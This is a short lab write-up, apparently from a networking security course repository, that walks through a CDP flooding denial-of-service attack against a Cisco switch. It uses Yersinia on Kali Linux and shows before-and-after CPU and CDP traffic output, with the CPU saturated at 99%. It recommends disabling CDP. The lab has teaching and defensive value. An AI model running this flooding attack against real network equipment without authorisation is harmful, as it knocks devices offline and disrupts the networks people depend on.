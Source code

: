 ```yaml
---
title: CDP flooding
---
```


# CDP flooding

1. Goal
    * To saturate the CPU of a Cisco device.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2019.4)

4. Setup
    
    ![Success](./assets/setup.png)

5. Getting started
    1. Check if CDP (Cisco Discovery Protocol) is enabled on the Cisco device.
    
    [More information about CDP](https://en.wikipedia.org/wiki/Cisco_Discovery_Protocol)
    ```
    Switch#show cdp
    Global CDP information:
        Sending CDP packets every 60 seconds
        Sending a holdtime value of 180 seconds
        Sending CDPv2 advertisements is enabled
    Switch#
    ```
    2. Check the CPU usage of the Cisco device
    ```
    Switch#show processes cpu history

                         11111
          444445555577777444445555577777444445555555555555555555544444
    100
    90
    80
    70
    60
    50
    40
    30
    20
    10      *************************     ********************
         0....5....1....1....2....2....3....3....4....4....5....5....6
                   0    5    0    5    0    5    0    5    0    5    0
                   CPU% per second (last 60 seconds)
    ```
    3. Install Yersinia on Kali Linux (if necessary)
   
    [More information about Yersinia](https://tools.kali.org/vulnerability-analysis/yersinia)
    ```
    root@kali:~# apt-get update
    root@kali:~# apt-get upgrade
    root@kali:~# apt-get install yersinia
    ```
    4. Launching CDP flooding
    ```
    root@kali:~# yersinia -G
    ```
    ![Success](./assets/yersinia.png)

    Select Launch attack -> flooding CDP table

    ![Success](./assets/attack.png)

    The result of the attack can be seen in the following outputs.
    ```
    Switch#show cdp traffic
    CDP counters :
        Total packets output: 30, Input: 36432
        Hdr syntax: 0, Chksum error: 0, Encaps failed: 0
        No memory: 0, Invalid packet: 0,
        CDP version 1 advertisements output: 5, Input: 36432
        CDP version 2 advertisements output: 25, Input: 0
    Switch#
    ```
    ```
    Switch#show processes cpu history
       999999999999999999999999999999999999999999999999999999999999
       999999999999999999999999999999999999999999999999999999999999
   100 **********************************************************
    90 **********************************************************
    80 **********************************************************
    70 **********************************************************
    60 **********************************************************
    50 **********************************************************
    40 **********************************************************
    30 **********************************************************
    20 **********************************************************
    10 **********************************************************
       0....5....1....1....2....2....3....3....4....4....5....5....6
                 0    5    0    5    0    5    0    5    0    5    0
                 CPU% per second (last 60 seconds)
    ```
    6. Conclusion
    
    * It is recommended to disable CDP whenever possible.